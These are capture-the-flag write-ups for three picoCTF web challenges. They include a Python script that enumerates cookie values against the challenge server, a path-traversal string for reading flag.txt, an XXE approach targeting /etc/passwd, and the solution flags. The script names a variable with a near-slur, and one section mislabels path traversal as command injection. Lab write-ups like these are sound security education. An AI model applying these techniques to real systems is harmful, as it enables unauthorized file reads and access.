


# Cookies

### Flag: picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535} 


   * The Challenge is Called Cookies so Naturally First thought is that is has something to do with Web Cookies.
   * The Challenge Description provides us links to the following web-app `http://mercury.picoctf.net:17781/`


    
   - Inspecting the Dev panel we notice something very interesting, There's a Cookie called "name" with the values "-1"
   - Ok lets Explore further 


   - Next typing the prompt on the text box gives us 2 Network Requests as seen on the image. 

   - Ok, now lets try with something random in the box

 

   - so it seems that when we search a valid string  the search sets up the name cookie redirects us to '/check' and if not it just sends us back to the home page
   - We need to Find the valid cookie value for the flag, 
   - This Code Prints the Html oF the page with the flag. 

```py
    import requests
    for i in range(100):
        print(i) #debugging
        changed_values = f"name={i}"
        niga={'Cookie': changed_values}


        r=requests.get("http://mercury.picoctf.net:17781/check",headers=niga)

        if "picoCTF" in r.text:
            print(r.text)
            break
```

   - Gives output as

```
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```


   - looking through the html we get the flag. 


Other incorrect methods you tried:

- Looked through the entire files and things as i incorrectly thought that you needed a specific password phrase to get the flag. 


---

# Forbidden Paths

### Flag: picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}

   - In the Challenge there is a Dialog box for reading files

   - Use `../../../../../../../../../../../../flag.txt` to print the flag. 


What you learned through solving this challenge:

1. Search for arbitary command Injection in Websites,
2. Linux Command Line Manipulation. 

---

# SOAP

**Flag:** `picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}`

- The Challenge Hint gives us some input about on how to proceed with it, it says `XML external entity Injection`.

### xml and its entities, 
XML is just information wrapped in tags,
there are certain special characters which are called xml entities.
Entities are used to define shortcuts to special characters.
xml Entities can refrence system files as well. 


Entities can be declared internal or external.
we know that to solve this challenge we need to somehow manipulate the http request which requests a xml document.

- We can define a external xml entity and have it refrence the /etc/passwd file which will solve the challenge for us.

 

- as you can see the we have defined a xml entity which will refrence the `/etc/passwd` file. 

- sending the request we get, which gives us the flag. 





What you learned through solving this challenge:

1. Learnt about XML and how it is parsed.
2. About http requests and how they are parsed. 

Other incorrect methods you tried:

- incorrectly modifying the xml document, 

References

- https://www.w3schools.com/xml/xml_dtd_entities.asp
- https://portswigger.net/web-security/xxe
 


